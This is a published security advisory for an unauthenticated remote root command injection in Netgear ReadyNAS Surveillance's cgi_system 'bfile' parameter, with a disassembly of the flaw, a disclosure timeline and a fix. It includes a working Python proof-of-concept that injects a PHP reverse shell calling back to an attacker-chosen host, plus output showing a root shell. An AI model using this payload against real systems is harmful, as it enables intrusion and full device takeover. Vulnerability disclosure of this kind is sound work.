 Unauthenticated Remote Command Execution in Netgear ReadyNAS Surveillance
=========================================================================

Product Description
===================

Netgear ReadyNAS Surveillance is a NVR (Network Video Recorder) available for Netgear NAS systems.

Vulnerability Description
=========================

A critical vulnerability has been found in Netgear ReadyNAS Surveillance configuration backup feature, allowing remote users to execute arbitrary commands as root.


Unauthenticated Config File Download + Remote Root via RCE
==========================================================

Because the ReadyNAS Surveillance cgi_system cgi application doesn't check the
user-provided "bfile" POST parameter and does not check if the user is authenticated, it's
possible to execute arbitrary commands as root.
It's also possible, without RCE, to download the ReadyNAS Surveillance configuration files.

**Access Vector**: remote

**Security Risk**: high

**Vulnerability**: CWE-88

----------------
Proof of Concept
----------------

    #!/usr/bin/env python
    import requests
    import socket
    import telnetlib
    from thread import start_new_thread
    from time import sleep
    import argparse

    def exploit(target, reverse):
        print "[~] Sending payload..."
        requests.post("http://%s/cgi-bin/cgi_system?cmd=saveconfig" % target,
                            data={"bfolder":"/tmp",
                                  "bfile": ";$(php -r '$sock=fsockopen(\"%s\",%d);exec(\"/bin/sh -i <&3 >&3 2>&3\");')" % reverse,
                                  "inc_emap": "no",
                                  "inc_pos": "no"})

    def handler(handler, lport):
        print "[~] Starting handler on port %d" % lport

        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.bind(("0.0.0.0", lport))
        s.listen(1)
        conn, addr = s.accept()

        print "[+] Connection from %s" % addr[0]

        handler.sock = conn

    if __name__ == "__main__":
        print "[~] ReadyNAS Surveillance Remote Root Exploit (quick'n'dirty) - Nicolas Chatelain"

        parser = argparse.ArgumentParser()
        parser.add_argument("--target", required=True)
        parser.add_argument("--localhost", required=True)
        parser.add_argument("--localport", required=True, type=int)

        args = parser.parse_args()

        t = telnetlib.Telnet()
        start_new_thread(handler, (t, args.localport))
        sleep(1) # Just in case...
        start_new_thread(exploit, (args.target, (args.localhost, args.localport)))
        sleep(2) # Wait for it...

        if t.sock_avail():
            print "[+] Exploited."
            t.interact()
        else:
            print "[!!] Exploit failed."

Shell output :

    nightlydev@nworkstation ~/Lab/ReadyNAS_Exploit $ python readyroot.py --target 10.x.x.2 --localhost 10.x.x.10 --localport 9999

    [~] ReadyNAS Surveillance Remote Root Exploit (quick'n'dirty) - Nicolas Chatelain 
    [~] Starting handler on port 9999
    [~] Sending payload...
    [+] Connection from 10.x.x.2
    [+] Exploited.
    /bin/sh: 0: can't access tty; job control turned off
    # whoami
    root
    # id
    uid=98(admin) gid=98(admin) euid=0(root) groups=0(root),27(sudo),42(shadow),98(admin)

---------------
Vulnerable code
---------------

The vulnerable code is located in the /apps/surveillance/bin/cgi_system file.

                                                                                      bfile
    ------------------------------------------------------------------------------------vv---------------
    .text:00010CD8                 LDR     R2, =aCdSBinTarZcfSP ; "cd %s; /bin/tar -zcf %s passwd shadow"
    .text:00010CDC                 MOV     R0, R10         ; s
    .text:00010CE0                 STR     LR, [SP,#0x1658+var_1658]
    .text:00010CE4                 BL      snprintf
    .text:00010CE8                 MOV     R0, R10         ; s
    .text:00010CEC                 BL      strlen
    .text:00010CF0                 LDR     R1, =aDevNull2DevNul ; " > /dev/null 2>/dev/null"
    .text:00010CF4                 MOV     R2, #0x19       ; n
    .text:00010CF8                 ADD     R0, R10, R0     ; dest
    .text:00010CFC                 BL      memcpy
    .text:00010D00                 MOV     R0, R10         ; command
    .text:00010D04                 BL      system

--------
Solution
--------

Update to the latest version of Netgear ReadyNAS Surveillance.

Timeline (dd/mm/yyyy)
=====================

* 19/08/2015 : Initial discovery
* 20/08/2015 : First attempt to contact security[at]netgear.com -> No response
* September 2015 to December 2015 : Multiples attempts to contact security[at]netgear.com -> No response
* 20/01/2016 : Attempt to contact Netgear chat support
* 20/01/2016 : Response from Netgear, technical details and proof-of-concept sent.
* 20/01/2016 : Netgear confirms that exploit is working.
* 08/02/2016 : Netgear publishes security vulnerability announcement : http://kb.netgear.com/app/answers/detail/a_id/30275 and remove the ReadyNAS Surveillance package.
* 03/03/2016 : Netgear publishes a new version of ReadyNAS Surveillance that fixes the vulnerability.

Credits
=======

* Nicolas Chatelain, TNP Consultants (nicolas.chatelain -at- tnpconsultants -dot- com)

